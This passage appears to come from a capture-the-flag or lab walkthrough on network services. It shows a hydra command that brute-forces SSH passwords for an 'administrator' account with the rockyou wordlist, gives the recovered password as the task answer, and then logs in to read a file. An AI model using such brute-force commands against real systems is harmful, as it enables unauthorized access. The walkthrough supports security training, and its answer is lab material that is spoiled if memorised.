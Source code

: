```bash
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV <MACHINE_IP> ssh
```

![Guide image](./screenshots/network-services-2-13.png)

**=> Answer: `alejandro`**

- <p>Great! Now, let's SSH into the server as the user, what is contents of smtp.txt<br /></p>

```bash
ssh administrator@<MACHINE_IP>

ls
cat smtp.txt
```

![Guide image](./screenshots/network-services-2-14.png)

